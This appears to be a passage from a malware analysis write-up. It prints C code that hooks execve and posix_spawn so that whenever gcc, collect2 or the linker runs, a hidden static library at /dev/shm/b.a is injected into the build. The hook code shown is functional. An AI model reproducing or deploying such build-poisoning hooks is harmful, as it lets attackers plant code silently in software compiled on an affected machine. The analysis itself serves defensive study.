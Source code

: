 ```c

    return (char **)new_argv;
}
```

The `inject_args` function modifies a program's argument list by conditionally adding a static library (/dev/shm/b.a), depending on the binary, and prevents duplication of this library in the list.


The hooking of `execve` happens as follows:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]) {
    static int (*real_execve)(const char *, char *const [], char *const []) = NULL;
    if (!real_execve) real_execve = dlsym(RTLD_NEXT, "execve");

    if ((is_gcc(pathname) || is_collect2(pathname) || is_linker(pathname)) && should_inject(argv)) {
        char **new_argv = inject_args(pathname, argv, 3);
        if (new_argv) {
            int result = real_execve(pathname, new_argv, envp);
            free(new_argv);
            return result;
        }
    }

    return real_execve(pathname, argv, envp);
}
```

When the process attempts to execute `gcc`, `ld`, or similar, the `execve` hook intercepts the call. It calls the `inject_args` function to modify the arguments, and if the modification is successful, it executes the binary with the new argument list. The original `execve` function is called via the pointer obtained with dlsym, ensuring that the actual call still happens, but with the malicious code included.

Finally, the `posix_spawn` function is handled with identical logic:

```c
int posix_spawn(pid_t *pid, const char *path,
                const posix_spawn_file_actions_t *file_actions,
                const posix_spawnattr_t *attrp,
                char *const argv[], char *const envp[]) {
    static int (*real_posix_spawn)(pid_t *, const char *,
                                   const posix_spawn_file_actions_t *,
                                   const posix_spawnattr_t *,
                                   char *const [], char *const []) = NULL;
    if (!real_posix_spawn)
        real_posix_spawn = dlsym(RTLD_NEXT, "posix_spawn");

    if ((is_gcc(path) || is_collect2(path) || is_linker(path)) && should_inject(argv)) {
        char **new_argv = inject_args(path, argv, 3);
        if (new_argv) {
            int result = real_posix_spawn(pid, path, file_actions, attrp, new_argv, envp);
            free(new_argv);
            return result;
        }
    }

    return real_posix_spawn(pid, path, file_actions, attrp, argv, envp);
}
```
